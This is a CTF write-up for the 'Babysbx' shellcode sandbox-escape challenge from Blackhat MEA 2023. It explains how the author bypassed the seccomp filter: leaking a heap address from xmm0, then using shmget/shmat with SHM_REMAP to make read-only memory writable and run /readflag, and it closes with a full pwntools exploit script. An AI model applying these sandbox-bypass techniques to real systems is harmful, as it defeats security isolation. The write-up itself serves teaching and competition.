



## Babysbx

was a pwn challenge from Blackhat MEA CTF Finals 2023

a shellcode/sandbox escape challenge written by ptr-yudai.

This challenge had many different solutions, I will expose mine here.

------

### 1 - The challenge

no source code was provided for this one, but the reverse is quick. Let's have a look at `main()`:



We can see that the `main()`function map a `RWX` zone at 0xC0DE000 address with `mmap`.

then with memcpy, it copy a chunk of fixed instructions called `prefix` in this zone:



these instructions will clear all registers before the execution of our shellcode.

Then the program read 0xfd8 bytes after the prefix, which is our shellcode.

Then it installs a `seccomp` sandbox, and will jump to the beginning of `prefix` and execute the register clear instructions before our shellcode.

Let's have a look to the `seccomp` in place:

```sh
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x28 0xc000003e  if (A != ARCH_X86_64) goto 0042
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x25 0xffffffff  if (A != 0xffffffff) goto 0042
 0005: 0x15 0x24 0x00 0x00000002  if (A == open) goto 0042
 0006: 0x15 0x23 0x00 0x00000009  if (A == mmap) goto 0042
 0007: 0x15 0x22 0x00 0x0000000a  if (A == mprotect) goto 0042
 0008: 0x15 0x21 0x00 0x0000000b  if (A == munmap) goto 0042
 0009: 0x15 0x20 0x00 0x00000011  if (A == pread64) goto 0042
 0010: 0x15 0x1f 0x00 0x00000013  if (A == readv) goto 0042
 0011: 0x15 0x1e 0x00 0x00000038  if (A == clone) goto 0042
 0012: 0x15 0x1d 0x00 0x00000039  if (A == fork) goto 0042
 0013: 0x15 0x1c 0x00 0x0000003a  if (A == vfork) goto 0042
 0014: 0x15 0x1b 0x00 0x0000003e  if (A == kill) goto 0042
 0015: 0x15 0x1a 0x00 0x00000055  if (A == creat) goto 0042
 0016: 0x15 0x19 0x00 0x00000065  if (A == ptrace) goto 0042
 0017: 0x15 0x18 0x00 0x00000101  if (A == openat) goto 0042
 0018: 0x15 0x17 0x00 0x00000127  if (A == preadv) goto 0042
 0019: 0x15 0x16 0x00 0x00000136  if (A == process_vm_readv) goto 0042
 0020: 0x15 0x15 0x00 0x00000137  if (A == process_vm_writev) goto 0042
 0021: 0x15 0x14 0x00 0x00000142  if (A == execveat) goto 0042
 0022: 0x15 0x13 0x00 0x00000147  if (A == preadv2) goto 0042
 0023: 0x15 0x12 0x00 0x000001b3  if (A == 0x1b3) goto 0042
 0024: 0x15 0x11 0x00 0x000001b5  if (A == 0x1b5) goto 0042
 0025: 0x15 0x00 0x04 0x0000003b  if (A != execve) goto 0030
 0026: 0x20 0x00 0x00 0x00000014  A = filename >> 32 # execve(filename, argv, envp)
 0027: 0x15 0x00 0x0e 0x00005605  if (A != 0x5605) goto 0042
 0028: 0x20 0x00 0x00 0x00000010  A = filename # execve(filename, argv, envp)
 0029: 0x15 0x0b 0x0c 0xcc147050  if (A == 0xcc147050) goto 0041 else goto 0042
 0030: 0x15 0x00 0x0a 0x00000000  if (A != read) goto 0041
 0031: 0x20 0x00 0x00 0x00000024  A = count >> 32 # read(fd, buf, count)
 0032: 0x15 0x00 0x09 0x00000000  if (A != 0x0) goto 0042
 0033: 0x20 0x00 0x00 0x00000020  A = count # read(fd, buf, count)
 0034: 0x15 0x00 0x07 0x00000001  if (A != 0x1) goto 0042
 0035: 0x20 0x00 0x00 0x0000001c  A = buf >> 32 # read(fd, buf, count)
 0036: 0x25 0x05 0x00 0x00000000  if (A > 0x0) goto 0042
 0037: 0x15 0x00 0x04 0x00000000  if (A != 0x0) goto 0042
 0038: 0x20 0x00 0x00 0x00000018  A = buf # read(fd, buf, count)
 0039: 0x35 0x00 0x02 0x0c0de000  if (A < 0xc0de000) goto 0042
 0040: 0x35 0x01 0x00 0x0c0df000  if (A >= 0xc0df000) goto 0042
 0041: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0042: 0x06 0x00 0x00 0x00000000  return KILL
```

you can see that many syscall are forbidden: `open, mmap, mprotect, munmap, pread64, readv, clone, fork, vfork, kill, creat, ptrace, openat, preadv, process_vm_readv, process_vm_writev, execveat, preadv2, clone3 (0x1b3),  openat2 (0x1b5)`

`execve`is authorized, but only if the filename address points to the "/bin/id" string in the .rodata zone of the program:



And because of PIE, that address will change at each runtime.

There is also a restriction on `read`sycall, which buffer destination address must belong to the `0xc0de000`zone, where our shellcode is.

The flag of the challenge itself is printed by an executable named `/readflag`in the root directory. (actually the challenge use red.pwn/jail and is running in a jail inside a docker)

> So for resuming, there is no other way to execute a file than `execve` all other ways are disabled, there is no way to open a file too, and `execve`can only exec `/bin/id`.  The string "/bin/id" can not be modified as it is in a read-only zone.
>
> There is no way to trick by using int 0x80 syscalls, as the program checks also if we are running in 64bit mode, and forbid syscall numbers above 0x40000000.

That's the data of the problem.

------

### 2 - We are blind, so we need a leak..

All the registers being cleared before the execution of our shellcode, we need a leak to locate the program in the memory.

There are many ways to do this, I have used an old tricks from previous ctf.

Libc functions are using `xmm` registers for many SIMD optimized functions, and you can find many useful addresses in them frequently:  heap , libc, program, etc..

in restricted shellcodes often challenge's authors forget to clean them too, that's good for us, so we can find a heap address in `xmm0` actually which we can copy in `rax`register like this

```assembly
  /* leak heap address */
   movd rax, xmm0
```

ok this one was easy..

------

### 3 - Let's find "/bin/id" string address in .rodata

So we have an heap address, and we know that the seccomp rules are stored on heap.

And we know that the "/bin/id" address is stored in the seccomp rules in these lines:

```sh
0027: 0x15 0x00 0x0e 0x00005605  if (A != 0x5605) goto 0042
0028: 0x20 0x00 0x00 0x00000010  A = filename # execve(filename, argv, envp)
0029: 0x15 0x0b 0x0c 0xcc147050  if (A == 0xcc147050) goto 0041 else goto 0042
```

in two parts, high part , and low part.

So we gonna localize the seccomp rules on heap, and leak the "/bin/id" address from them.

that"s this part of our shellcode:

```assembly
   movabs rbx, 0x0000000200240015   /* one random seccomp entry value */
   /* search for seccomp on heap */
search:
   cmp [rax],rbx
   jz ok1
   add rax,8
   jmp search
ok1:
   add rax,0xb4			/* move to line 27 were high part is stored */
   mov ebx,dword ptr[rax]
   shl rbx,32
   mov ecx,dword ptr[rax+0x10]
   or rbx,rcx				/* now "/bin/id" address is in rbx */
```

Now we have the "/bin/id" string address, let's move to next part.

------

### 4 - How to modify the "/bin/id" string.

Well `mmap`, `mprotect`, `munmap`, `ptrace` are forbidden, how the hell can we write in a read-only zone ?

There are different ways to achieve this goal.  

> I've read after the ctf from the author that using `mremap`syscall was the intended way.

But, a bit like Frank Sinatra, I did it my way...

There is another less known way to map (and even remap) memory zone, it's by using `shmget`, and `shmat` syscalls.

That syscalls are made originally to allocates a System V shared memory segment, to communicate between processes.

> **Typical Usage Scenario:**
>
> 1. A process creates a shared memory segment using `shmget` and obtains a unique identifier.
> 2. Other processes attach to the shared memory segment using `shmat` with the obtained identifier.
> 3. Processes can read from and write to the shared memory, facilitating inter-process communication.

`shmat` C declaration looks like this:

```c
void *shmat(int shmid, const void *shmaddr, int shmflg);
```

What's interesting is that `shmat`works a bit like `mmap`, if you pass `NULL` in `shmaddr`, the system will choose a suitable (unused) page-aligned address to attach the segment , so it will choose the address for you and map it.

You can also provide a fixed address in `shmaddr` in this case the system will try to map it , and last but not least, if you set the flag `SHM_REMAP` in  `shmflag` :

> SHM_REMAP (Linux-specific) 
>     This flag specifies that the mapping of the segment should replace any existing mapping in the range starting at shmaddr and continuing for the size of the segment.  (Normally, an **EINVAL** error would result if a mapping already exists in this address range.)  In this case, shmaddr must not be NULL.

So it will remap the page at the given address with the protection rights given previously to `shmget`function.

So it will work a bit like `mprotect`, where you can change the protection of an already mapped zone.

So we can remap the read-only segment of the program like this:

```assembly
/* shmget */
   mov edi,1234       /* dumb key, can be any value */
   mov esi,0x400		/* size */
   mov edx,0x3b6     /* IPC_CREATE | 0666  --> read/write access */
   mov eax,29		/* shmget syscall number */
   syscall

   /* remap zone with shmat as rw */
   mov edi,eax		/* identifier returned by shmget */
   mov rsi,r15      /* r15 points to beginning of read-only page containing /bin/id string */
   mov edx, 16384      /* SHM_REMAP flag */
   mov eax,30          /* shmat syscall number */
   syscall
```

------

### 5 - Execute "/readflag" binary

So as we have remap the read-only zone of the binary as `RW`(read+write), now we can simple overwrite "/bin/id" string  and replace it with the "/readflag" string

and we have finished, we have escaped the `babysbx` sandbox. Here is the final exploit.

```assembly
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("babysbx_patched")
host, port = "blackhat.flagyard.com","31288"
p = remote(host,port)

shellc = asm('''
  /* leak heap address */
   movd rax, xmm0
   movabs rbx, 0x0000000200240015
   /* search for seccomp on heap */
search:
   cmp [rax],rbx
   jz ok1
   add rax,8
   jmp search
ok1:
   add rax,0xb4
   mov ebx,dword ptr[rax]
   shl rbx,32
   mov ecx,dword ptr[rax+0x10]
   or rbx,rcx
   mov r15,rbx
   sub r15,0x50
   /* leak fixed program address */

   /* shmget */
   mov edi,1234
   mov esi,0x400
   mov edx,0x3b6
   mov eax,29
   syscall

   /* remap zone with shmat as rw */
   mov edi,eax
   mov rsi,r15
   mov edx, 16384
   mov eax,30
   syscall

   /* overwrite program name */
   mov rdi,rax
   add rdi,0x50
   mov rbx,cmd[rip]
   mov [rdi],rbx
   mov rbx,cmd+8[rip]
   mov [rdi+8],rbx

   /* execve */
   xor esi,esi
   xor edx,edx
   mov eax,59
   syscall

cmd:
   .string "/readflag"
''')
p.sendafter('shellcode: ', shellc.ljust(0xfd8, b'\x90'))
p.interactive()
```

*nobodyisnobody still escaping rules...*